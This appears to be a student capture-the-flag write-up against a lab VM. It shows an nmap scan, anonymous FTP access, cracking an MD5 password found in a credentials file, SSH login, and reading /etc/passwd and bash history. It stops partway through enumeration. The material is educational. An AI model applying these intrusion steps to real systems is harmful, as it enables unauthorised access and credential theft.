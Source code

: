 # Troubleshooting
As `/etc/netplan` configuration of the machine says, there is a static ip address without DHCP. It's look weird and agains requirements of the assignment.
![](images/netplan_trouble.png)
For this purpose we decide to boot the machine in recovery mode and then enable `root` console, only for network managment.
Once `root` we have removed every file under /etc/netplan and then we've created a `/etc/rc.local` file with following code
```sh
#!/bin/bash
dhclient
exit 0
```
then `chmod 755 /etc/rc.local` and then, enable and restart the service (may take a while)
```sh
systemctl enable rc-local
systemctl restart rc-local
```

# Information Gathering
## Scanning
### nMap
```sh
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -A 192.168.56.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-03 03:40 EDT
Nmap scan report for 192.168.56.2
Host is up (0.00087s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp           216 Apr 30 12:08 site-credentials.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.56.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 59:dc:bf:b0:43:be:b5:ed:c4:1f:b8:0b:93:01:3a:4a (RSA)
|   256 2d:12:5e:5d:a5:11:18:ec:16:07:b6:ce:ae:7f:14:03 (ECDSA)
|_  256 b8:76:62:9f:68:28:a8:30:d0:87:13:fd:d1:10:aa:df (ED25519)
MAC Address: 08:00:27:61:9A:82 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
```
### ffuf


## Dump informations
### FTP
Since nMap shows us an anonymous login allowed on machine, try to explore..
```sh
┌──(kali㉿kali)-[~]
└─$ ftp 192.168.56.2
    anonymous
    <blank_password>
```
![](images/ftp_login.png)
`site-credentials.txt` reports something like
```txt
In case you forget the credentials to upload the files on the website,the IT department provided me with a file containing the password.
They mentioned a certain MD5 code.

ftp-user 37b4e2d82900d5e94b8da524fbeb33c0
```
seems we have a password hashed with MD5, but.. MD5 is unsafe since 2008 then maybe a rainbow-table attack can "decode" it.

```sh
md5:37b4e2d82900d5e94b8da524fbeb33c0 -> football
```
then.. could be this a user of the system? try it.
```sh
──(kali㉿kali)-[~]
└─$ ssh ftp-user@192.168.56.2
    football
ftp-user@ubuntulab:~$
```
**An unpriviledged shell was obtained 🏴‍☠️**
### Mounted disks
```sh
ftp-user@ubuntulab:~$ lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
loop0    7:0    0 49.9M  1 loop /snap/snapd/18357
loop1    7:1    0 91.9M  1 loop /snap/lxd/24061
loop2    7:2    0 38.8M  1 loop /snap/snapd/21465
loop3    7:3    0 63.3M  1 loop /snap/core20/1828
sda      8:0    0  5.2G  0 disk
├─sda1   8:1    0    1M  0 part
├─sda2   8:2    0  500M  0 part /boot
├─sda3   8:3    0  510M  0 part [SWAP]
└─sda4   8:4    0  4.2G  0 part /
sr0     11:0    1 1024M  0 rom
```
### /etc/passwd
```sh
...
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
ftp:x:114:119:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
ftp-user:x:1001:1001:,,,:/usr/local/apache24/cgi-bin/:/bin/bash
```

# Play with users
## ftp-user
### Information gathering
Try to understand what are last operation of ftp-user by reading his **.bash_history** file
```sh
ftp-user@ubuntulab:~$ cat .bash_history
ls
cd ..
ls
cd ..
sl
lsv
exit
systemctl start apache2
systemctl status apache2.service
journalctl -xe
sudo journalctl -xe
exit
ls
exit
cat /etc/crontab
nano ../scripts/health_check.sh
vi ../scripts/health_check.sh
less ../scripts/health_check.sh
```
in his `/home` there are some files, maybe useful for priviledge escalation
```sh
ftp-user@ubuntulab:/usr/local/apache24/cgi-bin$ ls
printenv  printenv.vbs	printenv.wsf  test-cgi
```
### Execute and explore binaries
Try to execute `printenv`
```sh
ftp-user@ubuntulab:~$ ./printenv
-bash: ./printenv: Permission denied
ftp-user@ubuntulab:~$ printenv
SHELL=/bin/bash
PWD=/usr/local/apache24/cgi-bin/
LOGNAME=ftp-user
XDG_SESSION_TYPE=tty
MOTD_SHOWN=pam
HOME=/usr/local/apache24/cgi-bin/
LANG=en_US.UTF-8
LC_TERMINAL=iTerm2
SSH_CONNECTION=192.168.56.3 56806 192.168.56.2 22
XDG_SESSION_CLASS=user
TERM=xterm-256color
USER=ftp-user
LC_TERMINAL_VERSION=3.5.0beta22
SHLVL=1
XDG_SESSION_ID=37
XDG_RUNTIME_DIR=/run/user/1001
SSH_CLIENT=192.168.56.3 56806 22
XDG_DATA_DIRS=/usr/local/share:/usr/share:/var/lib/snapd/desktop
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
DBUS_SESSION_BUS_ADDRESS=unix:path=/run/user/1001/bus
SSH_TTY=/dev/pts/0
_=/usr/bin/printenv
```